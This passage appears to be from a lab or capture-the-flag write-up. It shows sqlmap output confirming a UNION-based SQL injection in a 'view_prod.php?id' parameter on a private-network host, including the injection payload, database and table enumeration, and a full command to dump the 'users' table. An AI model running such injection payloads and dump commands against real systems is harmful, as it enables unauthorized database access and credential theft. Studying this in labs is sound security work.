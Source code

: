 ```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id=-8935 UNION ALL SELECT NULL,NULL,CONCAT(0x717a716a71,0x49597256545453557955456f627a547470514a714a7863454447667752675a6d43656a4459517579,0x716a706271),NULL,NULL,NULL,NULL-- -
---
[11:18:56] [INFO] testing MySQL
[11:18:56] [INFO] confirming MySQL
[11:18:56] [INFO] the back-end DBMS is MySQL ←
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[11:18:56] [INFO] fetching database names
[11:18:56] [WARNING] reflective value(s) found and filtering out
available databases [5]:
[*] fos ←
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

[11:18:56] [INFO] fetching tables for databases: 'fos, information_schema, mysql, performance_schema, sys'
[11:18:56] [INFO] skipping system databases 'information_schema, mysql, performance_schema, sys'
Database: fos
[8 tables]
+-----------------+
| cart            |
| category_list   |
| order_list      |
| orders          |
| product_list    |
| system_settings |
| user_info       |
| users           | ←
+-----------------+

[11:18:56] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2 times
[11:18:56] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.56.127'

[*] ending @ 11:18:56 /2024-09-26/
```

`sqlmap -u "http://192.168.56.127/view_prod.php?id=1" --technique=U --dbms=mysql -D 'fos' -T 'users' --dump --level=5 --risk=3 --threads=10 --time-sec=2 --text-only`:
```
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:30:21 /2024-09-26/

[11:30:21] [INFO] testing connection to the target URL
```